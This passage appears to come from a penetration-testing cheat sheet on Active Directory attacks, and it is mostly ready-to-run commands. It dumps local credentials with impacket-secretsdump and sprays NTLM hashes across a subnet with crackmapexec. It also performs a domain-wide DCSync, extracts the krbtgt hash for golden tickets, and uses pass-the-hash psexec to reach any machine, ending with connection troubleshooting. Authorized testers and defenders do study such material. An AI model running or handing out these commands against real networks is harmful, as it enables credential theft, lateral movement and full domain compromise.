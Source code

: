 ```bash
# 1. Dump local creds (30 sec)
impacket-secretsdump 'WORKSTATION01/administrator:pass@10.10.10.20'

# 2. Extract hashes from output
# 3. Spray hashes across network (find where admin works)
crackmapexec smb 10.10.10.0/24 -u administrator -H 'HASH' --local-auth

# 4. Dump creds from all accessible machines
for ip in 10.10.10.{21,22,23}; do
    impacket-secretsdump -hashes ':HASH' "administrator@$ip"
done
```

---

### Scenario 3: Domain Admin Achieved

```bash
# 1. DCSync entire domain (1 min)
impacket-secretsdump 'CORP/administrator:pass@DC01.corp.local' -just-dc -outputfile corp-domain

# Output files:
# corp-domain.ntds      ← All domain hashes
# corp-domain.ntds.kerberos  ← Kerberos keys
# corp-domain.ntds.cleartext ← Cleartext passwords (if any)

# 2. Extract krbtgt hash (for golden ticket)
grep krbtgt corp-domain.ntds
# CORP\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c4d5e6f:::

# 3. Access ANY machine
impacket-psexec -hashes ':1a2b3c4d5e6f' 'administrator@FILESERVER01'
```

---

## Common Errors & Fixes

### Error: "Connection refused" or "Connection timeout"

**Cause:** Firewall blocking, wrong IP, or service not running

**Fix:**
```bash
# Check if SMB port open
nmap -p 445 10.10.10.10

# Try different IP (DC vs member server)
# Ensure you're using correct target
```

---

